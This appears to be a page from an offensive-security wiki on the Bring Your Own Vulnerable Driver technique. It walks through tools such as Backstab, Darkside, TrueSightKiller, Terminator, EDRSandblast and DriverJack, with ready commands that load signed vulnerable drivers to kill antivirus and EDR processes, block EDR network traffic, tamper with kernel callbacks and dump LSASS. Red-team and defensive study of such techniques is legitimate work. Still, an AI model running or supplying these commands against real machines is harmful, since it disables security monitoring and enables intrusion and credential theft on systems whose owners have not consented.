 ```yaml
---
description: MITRE ATT&CK™ Exploitation for Privilege Escalation - Technique T1068
---
```


# Bring Your Own Vulnerable Driver (BYOVD)

## Theory

As a security mechanism, Windows by default employs a feature called [Driver Signature Enforcement ](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/driver-signing)that ensures kernel-mode drivers have been signed by a valid code signing authority before Windows will permit them to run.

However, we may bring a signed vulnerable driver onto a compromised machine so that we can exploit the vulnerability to execute code in kernel mode.&#x20;

{% hint style="danger" %}
That technique requires administrative privileges on the target.
{% endhint %}

## Practice

### Killing AV/EDDR

Gaining kernel-mode access through vulnerable drivers exploit enables a [Windows Kernel-Mode Code Integrity (KMCI)](https://learn.microsoft.com/en-us/windows/security/hardware-security/enable-virtualization-based-protection-of-code-integrity) bypass, allowing the termination of [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process) processes, such as EDR or AV tools.

{% tabs %}
{% tab title="procexp.sys " %}
[Backstab](https://github.com/Yaxser/Backstab) is a tool capable of killing antimalware protected processes by leveraging sysinternals’ [Process Explorer](https://learn.microsoft.com/fr-fr/sysinternals/downloads/process-explorer) driver ([procexp.sys](https://www.loldrivers.io/drivers/0567c6c4-282f-406f-9369-7f876b899c25/?query=procexp)).

```bash
# -n,	Choose process by name, including the .exe suffix
# -p, 	Choose process by PID
# -l, 	List handles of protected process
# -k, 	Kill the protected process by closing its handles
# -x, 	Close a specific handle
# -d, 	Specify path to where ProcExp will be extracted
# -s, 	Specify service name registry key
# -u, 	Unload ProcExp driver
# -a,	adds SeDebugPrivilege

#Examples:
#Kill cyserver
backstab.exe -n cyserver.exe -k

#Close handle E4C of cyserver
backstab.exe -n cyserver.exe -x E4C

#List all handles of cyserver
backstab.exe -n cyserver.exe -l

#Kill protected process with PID 4326, extract ProcExp driver to C:\ drive
backstab.exe -p 4326 -k -d c:\\driver.sys
```
{% endtab %}

{% tab title="truesight.sys" %}
[Truesight.sys](https://www.loldrivers.io/drivers/e0e93453-1007-4799-ad02-9b461b7e0398/?query=truesight.s) is a vulnerable driver from Rogue Anti-Malware Driver 3.3. It can be abuse to kill a PPL process

#### Darkside

[Darkside](https://github.com/ph4nt0mbyt3/Darkside) is a C# AV/EDR Killer that exploit the truesight.sys driver. To exploit, first load and start the driver:

```powershell
sc create TrueSight binPath="c:\path\to\truesight.sys" type= kernel start= demand
sc start TrueSight
```

Then, start Darkside by specifing the PID to kill.

```powershell
Darkside.exe -p <PID>
```

#### TrueSightKiller

[TrueSightKiller](https://github.com/MaorSabag/TrueSightKiller) is a CPP AV/EDR Killer that exploit the truesight.sys driver. To exploit, you need to have the `truesight.sys` driver located at the same location as the executable.

```powershell
# By porcess name
TrueSightKiller.exe -n <ProcessName.exe>

# By pid
TrueSightKiller.exe -p <PID>
```
{% endtab %}

{% tab title="zam64.sys" %}
[Terminator](https://github.com/ZeroMemoryEx/Terminator) terminate all EDR/XDR/AVs processes by abusing the [zam64.sys](https://www.loldrivers.io/drivers/e5f12b82-8d07-474e-9587-8c7b3714d60c/?query=zam64) driver. To exploit, place the driver Terminator.sys in the same path as the executable

```
Terminator.exe
```
{% endtab %}
{% endtabs %}

### Windows Filtering Platform (WPF) Callout Driver

A callout driver implements one or more [callouts](https://learn.microsoft.com/en-us/windows-hardware/drivers/network/callout). Callouts extend the capabilities of the [Windows Filtering Platform](https://learn.microsoft.com/en-us/windows/win32/fwp/windows-filtering-platform-start-page) by processing TCP/IP-based network data in ways that are beyond the scope of the simple filtering functionality. By exploiting such driver we can block outbound traffic from EDR processes.

{% tabs %}
{% tab title="EDRPrison" %}
[EDRPrison](https://github.com/senzee1984/EDRPrison) leverages a legitimate WFP callout driver, [WinDivert](https://reqrypt.org/windivert.html), to effectively silence EDR systems. This project focuses on network-based evasion techniques.&#x20;

```
EDRPrison.exe
```
{% endtab %}
{% endtabs %}

### Kernel Object Tampering

{% tabs %}
{% tab title="EDRSandblast" %}
[EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) is a tool written in `C` that weaponize a vulnerable signed driver to bypass EDR detections (Notify Routine callbacks, Object Callbacks and `ETW TI` provider) and `LSASS` protections. Multiple userland unhooking techniques are also implemented to evade userland monitoring.

```
Usage: EDRSandblast.exe [-h | --help] [-v | --verbose] <audit | dump | cmd | credguard | firewall | load_unsigned_driver>
[--usermode] [--unhook-method <N>] [--direct-syscalls] [--add-dll <dll name or path>]*
[--kernelmode] [--dont-unload-driver] [--no-restore]
    [--nt-offsets <NtoskrnlOffsets.csv>] [--fltmgr-offsets <FltmgrOffsets.csv>] [--wdigest-offsets <WdigestOffsets.csv>] [--ci-offsets <CiOffsets.csv>] [--internet]
    [--vuln-driver <RTCore64.sys>] [--vuln-service <SERVICE_NAME>]
    [--unsigned-driver <evil.sys>] [--unsigned-service <SERVICE_NAME>]
    [--no-kdp]
[-o | --dump-output <DUMP_FILE>]
```
{% endtab %}
{% endtabs %}

### Hijacking Valid Drivers

{% hint style="info" %}
The technique will not work on HVCI systems due to the impossibility to change the LSTAR pointers if protected by the Hyper-V
{% endhint %}

{% tabs %}
{% tab title="DriverJack" %}
[**DriverJack**](https://github.com/klezVirus/DriverJack) is a tool designed to load a vulnerable driver by abusing lesser-known NTFS techniques. These method bypass the registration of a Driver Service on the system by hijacking an existing service, and also spoof the image path presented in the Driver Load event. To further masquerade the presence of a vulnerable driver, the attack also abuses an Emulated Filesystem Read-Only bypass to swap the content of a driver file on a mounted ISO before loading it.

```
DriverJack.exe
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.trendmicro.com/en_us/research/24/a/kasseika-ransomware-deploys-byovd-attacks-abuses-psexec-and-expl.html" %}
